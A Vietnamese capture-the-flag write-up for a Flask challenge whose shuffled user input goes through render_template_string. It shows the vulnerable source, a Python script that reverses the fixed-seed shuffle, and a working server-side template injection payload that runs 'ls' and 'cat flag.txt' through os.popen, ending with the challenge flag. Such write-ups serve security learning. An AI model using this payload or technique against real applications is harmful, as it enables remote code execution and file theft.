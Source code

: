 # Đề bài: 
![Screenshot (463)](https://github.com/ductohno/ehc-adward/assets/152991010/9d62b2de-7258-45b1-aa11-213492bfbb30)
# Source code:
```
import random

from flask import Flask, redirect, render_template_string, request

app = Flask(__name__)

@app.get('/')
def root():
    return render_template_string('''
        <link rel="stylesheet" href="/style.css">
        <div class="content">
            <h1>The windy hills</h1>
            <form action="/shout" method="POST">
                <input type="text" name="text" placeholder="Hello!">
                <input type="submit" value="Shout your message...">
            </form>
            <div style="color: red;">{{ error }}</div>
        </div>
    ''', error=request.args.get('error', ''))

@app.post('/shout')
def shout():
    text = request.form.get('text', '')
    if not text:
        return redirect('/?error=No message provided...')

    random.seed(0)
    jumbled = list(text)
    random.shuffle(jumbled)
    jumbled = ''.join(jumbled)

    return render_template_string('''
        <link rel="stylesheet" href="/style.css">
        <div class="content">
            <h1>The windy hills</h1>
            <form action="/shout" method="POST">
                <input type="text" name="text" placeholder="Hello!">
                <input type="submit" value="Shout your message...">
            </form>
            <div style="color: red;">{{ error }}</div>
            <div>
                Your voice echoes back: %s
            </div>
        </div>
    ''' % jumbled, error=request.args.get('error', ''))

@app.get('/style.css')
def style():
    return '''
        html, body { margin: 0 }
        .content {
            padding: 2rem;
            width: 90%;
            max-width: 900px;
            margin: auto;
            font-family: Helvetica, sans-serif;
            display: flex;
            flex-direction: column;
            gap: 1rem;
        }
    '''
```
# Hướng làm:
- Trước tiên là phải đọc source code, ta có 2 parameter để chọn, đó là error và đoạn mà mình nhập vào, mình sẽ gọi tạm là %s
- Mình sẽ chọn biến %s để khai thác do nó đi qua server trước khi in ra kết quả
- Tiếp theo, ta để ý hàm random, random với seed cố định (ở đây là 0) thì sẽ luôn cho ra cùng 1 kết quả nếu nhập vào 1 chuỗi nhất định
- Lỗ hổng của bài là ssti do kết quả được gửi đi không hề có filter
=> Hướng làm: Tìm cách tìm ra 1 string mà khi gửi ấn shout thì nó sẽ gửi đi ssti payload, và ta có code sau để làm việc đó (by chatgpt):

# Code:
```
import random

def shuffle_string_with_indices(text, seed_value):
    random.seed(seed_value)
    indices = list(range(len(text)))
    random.shuffle(indices)
    shuffled = ''.join([text[i] for i in indices])
    return shuffled, indices
def unshuffle_string(shuffled_text, indices):
    original_list = [''] * len(shuffled_text)
    for i, index in enumerate(indices):
        original_list[index] = shuffled_text[i]
    return ''.join(original_list)
def find_original_string_from_target(target_text, seed_value):
    random.seed(seed_value)
    indices = list(range(len(target_text)))
    random.shuffle(indices)
 
    original_list = [''] * len(target_text)
    for i, index in enumerate(indices):
        original_list[index] = target_text[i]
    
    original_text = ''.join(original_list)
    return original_text, indices


target_text = "{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}"    #target code
seed_value = 0        # seed number


original_text, indices = find_original_string_from_target(target_text, seed_value)

print("Target:", target_text)
print("Indices:", indices)            
print("Original_text:", original_text)            #text which random become target_text

shuffled_text, _ = shuffle_string_with_indices(original_text, seed_value)
```
# Khai thác:
- Thử trước với payload {{7*7}}, chạy code ta được: *7{}{7}, dán vô thì ta có:

![Screenshot (465)](https://github.com/ductohno/ehc-adward/assets/152991010/cfe70f54-b8ec-4437-8667-0774560ef94f)

- Time to rce, chọn payload self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()
- Chạy code: l_ot( osn'_.(.__isgsi_pleu.)sttln)prlie___ _{.'l_}sa.}o_{)e__rd_'(_'fmob.painib_

![Screenshot (466)](https://github.com/ductohno/ehc-adward/assets/152991010/fd24eafc-9bf2-4527-91f2-6df80cf5266a)

- Tiếp theo thì cat the flag thôi
- Chạy code:  t___i _{{a.lg)ls(xfep_.lbpf'o s_a)_'t_e p_cgs.ooi}ia_}b___._'rdmt(iulon(lt)..teannist.'r__

![Screenshot (467)](https://github.com/ductohno/ehc-adward/assets/152991010/f48813bd-bcdd-49fc-9116-3215bad469be)

# Flag:
actf{2cb542c944f737b85c6bb9183b7f2ea8}


